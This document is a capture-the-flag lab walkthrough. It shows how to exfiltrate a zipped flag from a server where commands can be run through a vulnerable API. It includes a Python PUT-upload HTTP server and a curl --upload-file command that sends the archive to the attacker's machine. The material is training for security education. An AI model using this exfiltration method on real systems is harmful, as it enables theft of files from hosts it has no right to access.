

# Data Exfiltration
You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a low privilege user i.e. student. A sensitive flag file is kept in a zipped archive file in the student user's home directory.

Also, there is a monitor process running on the server machine that blocks most protocols except HTTP protocol (when using port 80).

**Objective:** Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

**Tools**
- Nmap
- A web browser
- Python scripting
- curl

**Instructions**
- Once you start the lab, you will have access to the Kali GUI instance
- The API endpoint is accessible at demo.ine.local domain!


## 1. Find the open port
Nmap the demo.ine.local domain:


Found an open port at 8000 is open at target machine.

## 2. Browse to the open port
Open a websbrower at browse to the ip:port


We can observe the "cmd parameter required" response. This means that we need to pass a parameter names with the URL.

## 3. Locate the flag.zip
Find the location of the present working directory and print out all the element in the directory.

First working directory:

We are at the /home/student directory.

Element in the working directory:

We located the flag.zip archieve. In order to get the flag, we need to transfer this file to our Kali Machine.

## 4. Check if curl is present on the remote machine
Run a cmd help command for Curl.

Curl is present at the remote machine.

## 5. Check the interface of current remote machine
Run $ipconfig.

The interface ip is 192.110.75.2.

## 6. Run a HTTP server to accept and save the archieve file
Following code can be used for HTTP server.
```python
#!/usr/bin/python

import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

## 7. Curl and upload the archieve file
Run the cmd **$curl 192.110.75.2 --upload-file flag.zip** to upload the file to the http server.

Then check the response from the server

The server accepted the archieve.

## 8. Unzip the file to locate the flag
The last steps to get the flag.

